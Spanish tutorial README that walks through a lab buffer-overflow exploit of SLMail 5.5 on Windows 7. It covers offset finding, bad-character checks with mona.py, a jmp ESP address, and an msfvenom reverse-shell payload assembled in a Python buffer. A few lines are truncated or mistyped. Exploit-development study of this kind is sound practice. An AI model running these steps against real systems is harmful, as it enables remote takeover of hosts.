 # Buffer Overflow

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Nota: El tutorial toma como base el video [¿Cómo explotar el Buffer Overflow del OSCP con éxito?](https://www.youtube.com/watch?v=sdZ8aE7yxMk)

Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern](./img/buffer_pattern.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa

![attach](./img/attach.png)

Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

![image](./img/eip_offset.png)  

con se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se copiar en C:/Progr

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![moona_folder](./img/set_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante
![smb_server](./img/smb_server.png)

Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```

![smb_copy](./img/smb_copy.png)

![code_badchars](./img/badchars.png)

Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a Dirreción ``` para obtener un badcha)

![](./img/badchar_compare.png)


Con el comando ``` !mona bytearray -cpb "\x00\x0a ``` se genera de nuevo los archivos bytearray pero sin los badchars. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con !mona modules se muestran los módulos de SLMail, se busca alguno que que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll
![mona_modules](./img/mona_modules.png)

![module_target](/img/module_target.png)


Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

![find_jmp](./img/find_jump_esp.png)

Se comprueba que la dirreción apunte a jmp ESP

![check_dir](./img/find_jump_esp_dir.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```

![reverse_shell](./img/reverse_shell.png)



